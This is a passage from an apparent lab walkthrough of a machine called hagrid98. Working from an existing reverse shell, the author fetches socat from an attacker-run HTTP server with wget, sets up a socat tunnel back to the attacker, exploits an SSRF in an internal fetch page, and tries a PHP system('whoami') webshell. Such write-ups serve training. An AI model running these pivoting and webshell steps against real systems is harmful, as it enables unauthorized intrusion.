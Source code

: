 ```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.100.65 - - [23/Apr/2023 16:12:06] "GET /socat HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```
get it from the reverse shell 

```
wget 192.168.100.53:80/socat
```
give it execution permissions

```
chmod +x socat
```

execute it from the reverse shell (i recommend you to open a new terminal of hagrid98 with sudo privileges)

```
bash-5.0# ./socat TCP-LISTEN:4343,fork TCP:192.168.100.53:80 
```
Where.:

- ```-TCP-LISTEN``` : stay listen at all the flow of information that comes from port 4343
- ```-4343``` : that comes from port 4343.
- ```-fork```: execute a redireccion of all that information that comes from port 4343.
- ```-TCP:192.168.100.53:80```: send it to 192.168.100.53 via tcp to  port 80

saying this now we have to listing at port 80 in order to get all fork of information that comes from socat

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)...
```

going back to the port 80 of 10.10.0.137
we have to request to the local host the information from our machine which is listining at 192.168.100.53:80 (remeber that this is possible because it's 
is vulnerable to ssrf)

in the search bar we have to search this (the ip of hagrid98 because there's the socat tunneling)

```bash
http://10.10.0.137:4343
```
and seems that it works nevetheless it's not interpreting php code, because i was trying to upload a command line using php
```php
<?
system("whoami")
?>
```
checking the page it's not interpreting php code
```php
<html>
<head>
	<title>Resource Fetching Page</title>
	<meta charset="utf-8">
</head>
<body>
	<center><h1>Welcome to Internal Network Resource Fetching Page</h1></center>
	<br><br>

	<form action="/internalResourceFeTcher.php" method="GET">
	<center><input type="text" name="url" value="" id='url'>
	<input type="submit" value="Fetch"></center>
	</form>
```